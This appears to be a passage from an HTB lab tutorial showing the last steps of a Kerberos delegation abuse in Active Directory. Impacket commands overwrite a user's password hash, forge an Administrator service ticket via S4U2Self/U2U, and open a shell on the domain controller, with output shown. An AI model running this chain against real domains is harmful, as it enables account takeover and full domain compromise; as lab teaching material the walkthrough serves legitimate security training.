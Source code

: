 #### Change the User's Password

With the knowledge of the `TGT's session key`, we can change the user's password on the Domain Controller between the `S4U2Self` and `S4U2Proxy` requests. This involves using the `SamrChangePasswordUser` method to set the user's password to match the TGT session key, allowing the KDC to decrypt the ticket. To change the user's password to match the session key, we can use `changepasswd.py`:
```shell-session
slomkm@htb[/htb]$ changepasswd.py INLANEFREIGHT.LOCAL/beth.richards@10.129.205.35 -hashes :de3d16603d7ded97bb47cd6641b1a392 -newhash :7c3d8b8b135c7d574e423dcd826cab58
Impacket v0.13.0.dev0+20240916.171021.65b774d - Copyright Fortra, LLC and its affiliated companies 

[*] Changing the password of INLANEFREIGHT.LOCAL\beth.richards
[*] Connecting to DCE/RPC as INLANEFREIGHT.LOCAL\beth.richards
[*] Password was changed successfully.
[!] User will need to change their password on next logging because we are using hashes.
```

#### Request a Service Ticket

Finally, use the configured delegation to impersonate a high-privilege user and request a service ticket for the desired service, such as CIFS or LDAP, on the target machine:
```shell-session
slomkm@htb[/htb]$ KRB5CCNAME=beth.richards.ccache getST.py -u2u -impersonate Administrator -spn TERMSRV/DC01.INLANEFREIGHT.LOCAL -no-pass INLANEFREIGHT.LOCAL/beth.richards -dc-ip 10.129.205.35
Impacket v0.13.0.dev0+20240916.171021.65b774d - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating Administrator
[*] Requesting S4U2self+U2U
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@TERMSRV_DC01.INLANEFREIGHT.LOCAL@INLANEFREIGHT.LOCAL.ccache
```

#### Access the Domain Controller

With the new ticket, we can connect to the domain controller as the Administrator:
```shell-session
slomkm@htb[/htb]$ KRB5CCNAME=Administrator@TERMSRV_DC01.INLANEFREIGHT.LOCAL@INLANEFREIGHT.LOCAL.ccache wmiexec.py DC01.INLANEFREIGHT.LOCAL -k -no-pass
Impacket v0.13.0.dev0+20240916.171021.65b774d - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>hostname
DC01
```